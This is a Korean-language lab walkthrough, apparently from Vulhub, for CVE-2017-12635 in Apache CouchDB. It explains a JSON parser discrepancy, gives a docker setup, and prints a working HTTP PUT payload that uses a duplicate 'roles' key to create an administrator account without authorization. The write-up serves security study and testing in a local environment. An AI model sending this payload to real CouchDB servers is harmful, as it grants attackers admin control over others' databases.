

# 아파치 Couchdb 원격 권한 상승 (CVE-2017-12635)

아파치 CouchDB는 오픈 소스 문서 지향 NoSQL 데이터베이스로, Erlang으로 구현되었습니다. CouchDB는 데이터를 저장, 전송 및 처리하는 데 여러 형식과 프로토콜을 사용합니다. 데이터를 저장할 때 JSON을 사용하며, MapReduce를 사용하는 쿼리 언어로 JavaScript를 활용하고, API에는 HTTP를 사용합니다.

Apache CouchDB 1.7.0 이전 및 2.1.1 이전 버전에서 Erlang 기반 JSON 파서와 JavaScript 기반 JSON 파서 간의 차이로 인해, 데이터베이스 내에서 액세스 제어를 위해 사용되는 roles에 중복 키가 포함된 _users 문서를 제출할 수 있습니다. 이 중 _admin 역할은 관리자 사용자를 나타내는 특별한 경우로 사용됩니다.

참고 링크.

 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
 - https://www.exploit-db.com/exploits/44498
 - http://bobao.360.cn/learning/detail/4716.html

## 환경 설정

환경을 컴파일 하고 시작해주세요.

```
docker compose up -d
```

환경이 시작된 후, ``http://your-ip:5984/_utils/``를 브라우징하여 웹 페이지를 볼 수 있으면, CouchDB가 성공적으로 시작되었음을 의미합니다. 그러나 로그인 없이는 아무 작업도 수행할 수 없습니다.

## 익스플로잇

데이터베이스에 유저를 추가하기 위한 기본적인 요청입니다.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

보시다시피, 403 오류가 반환됩니다: {"error": "forbidden", "reason": "Only _admin may set roles"}. 이는 관리자만이 이 엔드포인트를 사용할 수 있다는 것을 의미합니다.



우회하려면 중복된 **roles**을 포함하는 요청을 보내야 합니다.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

성공적으로 `vulhub`유저가 `vulhub`의 비밀번호와 함께 생성되었습니다.


로그인.


